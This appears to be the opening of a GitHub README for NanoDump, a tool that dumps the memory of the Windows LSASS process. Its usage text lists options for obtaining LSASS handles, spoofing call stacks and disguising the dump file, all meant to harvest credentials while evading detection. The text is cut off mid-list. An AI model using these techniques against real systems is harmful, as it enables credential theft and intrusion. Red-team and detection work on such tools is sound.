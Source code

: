 # NanoDump

A flexible tool that creates a minidump of the LSASS process.

![screenshot](resources/demo.png)

<h2>Table of contents</h2>

<ol>
  <li><a href="#usage">Usage</a></li>
  <li><a href="#features">Features</a></li>
  <li><a href="#combinations">Combining techniques</a></li>
  <li><a href="#examples">Examples</a></li>
  <li><a href="#redirectors">HTTPS redirectors</a></li>
</ol>

<h2 id="usage">1. Usage</h2>

```
usage: Z:\nanodump.x64.exe [--write C:\Windows\Temp\doc.docx] [--valid] [--duplicate] [--elevate-handle] [--duplicate-elevate] [--seclogon-leak-local] [--seclogon-leak-remote C:\Windows\notepad.exe] [--seclogon-duplicate] [--spoof-callstack svchost] [--silent-process-exit C:\Windows\Temp] [--shtinkering] [--fork] [--snapshot] [--getpid] [--help]
Dumpfile options:
    --write DUMP_PATH, -w DUMP_PATH
            filename of the dump
    --valid, -v
            create a dump with a valid signature
Obtain an LSASS handle via:
    --duplicate, -d
            duplicate a high privileged existing LSASS handle
    --duplicate-elevate, -de
            duplicate a low privileged existing LSASS handle and then elevate it
    --seclogon-leak-local, -sll
            leak an LSASS handle into nanodump via seclogon
    --seclogon-leak-remote BIN_PATH, -slt BIN_PATH
            leak an LSASS handle into another process via seclogon and duplicate it
    --seclogon-duplicate, -sd
            make seclogon open a handle to LSASS and duplicate it
    --spoof-callstack {svchost,wmi,rpc}, -sc {svchost,wmi,rpc}
            open a handle to LSASS using a fake calling stack
Let WerFault.exe (instead of nanodump) create the dump
    --silent-process-exit DUMP_FOLDER, -spe DUMP_FOLDER
            force WerFault.exe to dump LSASS via SilentProcessExit
    --shtinkering, -sk
            force WerFault.exe to dump LSASS via Shtinkering
Avoid reading LSASS directly:
    --fork, -f
            fork the target process before dumping
    --snapshot, -s
            snapshot the target process before dumping
Avoid opening a handle with high privileges:
    --elevate-handle, -eh
```